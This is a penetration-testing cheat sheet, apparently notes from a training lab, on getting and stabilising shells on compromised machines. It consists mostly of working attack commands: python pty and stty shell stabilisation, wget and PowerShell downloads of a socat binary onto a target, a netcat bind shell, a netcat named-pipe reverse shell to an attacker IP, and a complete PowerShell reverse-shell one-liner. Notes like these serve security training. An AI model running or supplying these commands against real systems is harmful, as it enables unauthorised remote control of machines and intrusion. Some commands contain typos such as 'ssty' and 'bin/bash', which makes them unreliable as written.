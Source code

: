 


1. `python -c 'import pty;pty.spawn("/bin/bash")'`
2. `export TERM=xterm`
3. Background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`


## option A
After receiving reversed shell you can stabalize the shell if python is installed


Mind you, you may need to specify the python version

#### 3 steps
Launch bash shell:
`python -c 'import pty;pty.spawn("bin/bash")'`

backout the shell with ctr-z, setup xterm commands: 
`export TERM=xterm`

output the shell to echo raw, and bring it back to the foreground:
`stty raw -echo; fg `

Note: If the shell dies your input/output on that shell won't work anymore, type `reset` and press `[enter]`.


## Option B
### rlwrap

Specialy usefull for windows machines

`sudo apt install rlwrap`

`rlwrap nc -lnvp <port>`

Also this shell can be completely stabalized by disabling the output
`ssty raw -echo; fg`

### Option C 
Socat, 

This technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. 

To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary 
`sudo python3 -m http.server 80`, then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget 
`wget <LOCAL-IP>/socat -O /tmp/socat`.

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`. We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks. 




### NC BIND SHELL
``mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``


_The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle._


### NC REVERSE SHELL 

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

### WINDOWS Powershell reverse shell

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

